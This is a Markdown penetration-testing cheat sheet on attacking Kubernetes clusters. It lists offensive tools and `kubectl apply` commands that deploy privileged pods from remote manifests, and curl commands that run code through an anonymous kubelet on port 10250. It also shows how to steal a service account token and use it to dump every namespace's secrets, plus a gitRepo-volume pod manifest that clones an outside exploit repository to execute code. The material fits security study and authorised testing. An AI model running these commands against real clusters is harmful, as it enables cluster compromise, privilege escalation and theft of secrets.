 # Kubernetes

> Kubernetes, often abbreviated as K8s, is an open-source container orchestration platform designed to automate the deployment, scaling, and management of containerized applications

## Summary

- [Tools](#tools)
- [Exploits](#exploits)
    - [Accessible kubelet on 10250/TCP](#accessible-kubelet-on-10250tcp)
    - [Obtaining Service Account Token](#obtaining-service-account-token)
- [References](#references)

## Tools

* [BishopFox/badpods](https://github.com/BishopFox/badpods) - A collection of manifests that will create pods with elevated privileges.
    ```ps1
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv-and-hostpid/pod/priv-and-hostpid-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv/pod/priv-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpath/pod/hostpath-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpid/pod/hostpid-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostnetwork/pod/hostnetwork-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostipc/pod/hostipc-exec-pod.yaml
    kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/nothing-allowed/pod/nothing-allowed-exec-pod.yaml
    ```
* [serain/kubelet-anon-rce](https://github.com/serain/kubelet-anon-rce) - Executes commands in a container on a kubelet endpoint that allows anonymous authentication
* [DataDog/KubeHound](https://github.com/DataDog/KubeHound) - Kubernetes Attack Graph
    ```ps1
    # Critical paths enumeration
    kh.containers().criticalPaths().count()
    kh.containers().dedup().by("name").criticalPaths().count()
    kh.endpoints(EndpointExposure.ClusterIP).criticalPaths().count()
    kh.endpoints(EndpointExposure.NodeIP).criticalPaths().count()
    kh.endpoints(EndpointExposure.External).criticalPaths().count()
    kh.services().criticalPaths().count()

    # DNS services and port
    kh.endpoints(EndpointExposure.External).criticalPaths().limit(local,1)
    .dedup().valueMap("serviceDns","port")
    .group().by("serviceDns").by("port")
    ```

## Exploits

### Accessible kubelet on 10250/TCP

**Requirements**:

* `--anonymous-auth`: Enables anonymous requests to the Kubelet server

**Exploit**:

* Getting pods: `curl -ks https://worker:10250/pods`
* Run commands: `curl -Gks https://worker:10250/exec/{namespace}/{pod}/{container} -d 'input=1' -d 'output=1' -d'tty=1' -d 'command=ls' -d 'command=/'`


### Obtaining Service Account Token

Token is stored at `/var/run/secrets/kubernetes.io/serviceaccount/token`

Use the service account token:
* on `kube-apiserver` API: `curl -ks -H "Authorization: Bearer <TOKEN>" https://master:6443/api/v1/namespaces/{namespace}/secrets`
* with kubectl: ` kubectl --insecure-skip-tls-verify=true --server="https://master:6443" --token="<TOKEN>" get secrets --all-namespaces -o json`


### Create gitRepo Volumes to Execute Code

**Requirements**:

* [`gitRepo`](https://kubernetes.io/docs/concepts/storage/volumes/#gitrepo) volume type enabled
* `create` rights on pods

**Exploit**:

```yml
apiVersion: v1
kind: Pod
metadata:
  name: test-pd
spec:
  containers:
  - image: alpine:latest
    command: ["sleep","86400"]
    name: test-container
    volumeMounts:
    - mountPath: /gitrepo
      name: gitvolume
  volumes:
  - name: gitvolume
    gitRepo:
      directory: g/.git
      repository: https://github.com/raesene/repopodexploit.git
      revision: main
```


## References

* [Attacking Kubernetes through Kubelet - Withsecure Labs- 11 January, 2019](https://labs.withsecure.com/publications/attacking-kubernetes-through-kubelet)
* [kubehound - Attack Reference](https://kubehound.io/reference/attacks/)
* [KubeHound: Identifying attack paths in Kubernetes clusters - Datadog - October 2, 2023](https://securitylabs.datadoghq.com/articles/kubehound-identify-kubernetes-attack-paths/)
* [Fun With GitRepo Volumes - Rory McCune - JULY 10TH, 2024](https://raesene.github.io/blog/2024/07/10/Fun-With-GitRepo-Volumes/)